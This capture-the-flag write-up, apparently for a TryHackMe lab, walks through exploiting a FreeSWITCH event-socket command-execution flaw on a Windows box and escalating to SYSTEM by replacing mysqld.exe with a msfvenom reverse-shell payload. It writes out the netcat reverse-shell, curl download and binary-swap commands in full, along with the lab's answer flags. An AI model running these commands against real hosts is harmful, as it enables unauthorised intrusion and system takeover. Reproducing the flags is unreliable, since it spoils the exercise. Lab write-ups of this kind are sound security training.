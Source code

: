 # IP
10.10.3.107

## Enumeration
### Nmap
Found two ports running on the machine.
```console
PORT     STATE SERVICE          REASON  VERSION
3389/tcp open  ms-wbt-server    syn-ack Microsoft Terminal Services
|_ssl-date: 2022-10-29T05:11:15+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-10-29T05:11:14+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Issuer: commonName=WIN-EOM4PK0578N
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-10-28T05:05:20
| Not valid after:  2023-04-29T05:05:20
| MD5:   e6ce 91de 1265 caf1 3131 4fb3 7622 2ba2
| SHA-1: 2e90 4381 7139 e719 d81a f97a 0e5d 871e b5ae c355
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQaLFaTx2iRaBKNvil2qeZ0jANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tRU9NNFBLMDU3OE4wHhcNMjIxMDI4MDUwNTIwWhcNMjMw
| NDI5MDUwNTIwWjAaMRgwFgYDVQQDEw9XSU4tRU9NNFBLMDU3OE4wggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDWf28IblvG1kVpHcjSuEOpgm8ukuI6D1AO
| sCurJ0+3Mz3EBd5semclzGVpa1t5lePd8mu81/3Xep8amsZVuibcytbdoiPPEHoO
| bCoPsgrXstCEiINgYIywDKe8hhbD/7Vn+NZVzwdt543XLi+LI82isGqdwdy8+gpd
| GEWSG9/C2PFZP/izTitjDPEeMmXGWrTUxppR4kUZZyoLXl6mJV7483lzbyWzNY2L
| tBdRDjssaNS9u0vzHvUdugifXZtSkHigtAFrjI2tYR2Fcue7vA069PgKoJELsmY1
| EJBObaYhAVGe/9ouwTXUT+EDFFwpKnksya3DOQ7RHUBUmJrjnikFAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAsVrgbcWxZnt2oNOFyi/TUkSRY4xlsj4/2fpg6ctRA7Ij0h2U3hg4H9fH
| xllWX3bVMcfDb87JjV/XUquRL1MSY/rOpDCt3TxPW1Z/KgB9CB8AlyUJasYc/pQo
| IgnVZeWIJC1Q6Gjs+JbyE1wGmj8C96Do6bX/3q6t2MHHHUDeNvXJRyuUqX9DqHo1
| cq0VxGnOdq1w11fZ+NFaA4zkXlomz3/DINMIL771DZkhp/3x3x1ZKiPt6b+9orla
| urh5OGhrdN+C3btyi2+f+T0+wIU4S5EqUb7Gc0xrFywCGJ485djPwxUom98K3qMV
| +zqoqWGyZ/XKUIAmpbzw2Oh6HTivNg==
|_-----END CERTIFICATE-----
8021/tcp open  freeswitch-event syn-ack FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
```

On searching exploits for these service found Command execution exploit for `FreeSWITCH`.
```console
❯ searchsploit freeswitch
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit)                                                                                             | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                                                                                                                | windows/remote/47799.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


## Exploit
### FreeSWITCH ([1.10.1](https://www.exploit-db.com/exploits/47799))
- Downloaded exploit from searchsploit 
```console
❯ searchsploit -m windows/remote/47799.py
  Exploit: FreeSWITCH 1.10.1 - Command Execution
      URL: https://www.exploit-db.com/exploits/47799
     Path: /usr/share/exploitdb/exploits/windows/remote/47799.txt
File Type: Python script, ASCII text executable
Copied to: /home/divu050704/tryhackme-notes/flatline/47799.txt
```
- On reading code found out that we need to provide to arguments to the exploit.
1. Target
2. Command
- Ran exploit for the first time with `whoami` command
```console
❯ python3 exploit.py 10.10.210.187 whoami
Authenticated
Content-Type: api/response
Content-Length: 25
win-eom4pk0578n\nekrotic
```
- Uploaded a static `nc.exe` binary to the system.
- Started a reverse shell with `nc.exe`.
```console
❯ python3 exploit.py 10.10.210.187 "nc.exe 10.17.0.215 4444 -e cmd.exe"
Authenticated
```
- Got a reverse shell.
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.210.187] 49867
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Program Files\FreeSWITCH>
```
- Found `user.txt`.
```console
C:\Users\Nekrotic\Desktop>
type user.txt
type user.txt
THM{64bca0843d535fa73eecdc59d27cbe26}
```

## Privilege Escalation
- Followed this [exploit](https://www.exploit-db.com/exploits/50448)
- Started a netcat listener.
```console
❯ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
```
- Created a msfvenom payload
```console
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.17.0.215 LPORT=4242 -f exe  > mysqld_evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
- Uploaded to `C:\projects\openclinic\mariadb\bin`.
```console
C:\projects\openclinic\mariadb\bin> curl http://10.17.0.215/mysqld_evil.exe -o mysqld_evil.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 73802  100 73802    0     0  73802      0  0:00:01  0:00:01 --:--:-- 41814
```
- Renamed `mysqld.exe` as `mysqld.bak` and `mysqld_evil.exe` as `mysqld.exe`.
```console
C:\projects\openclinic\mariadb\bin> rename mysqld.exe mysqld.bak
C:\projects\openclinic\mariadb\bin> rename mysqld_evil.exe mysqld.exe
```
- Restarted the system with
```console
C:\projects\openclinic\mariadb\bin> shutdown /r /t 1
```
- Got a reverse shell.
```console
❯ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.4.10] 49670
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
whoami
whoami
nt authority\system
C:\Windows\system32> 
```
- Found `root.txt`
```console
C:\Users\Nekrotic\Desktop> type root.txt
THM{8c8bc5558f0f3f8060d00ca231a9fb5e} 
```



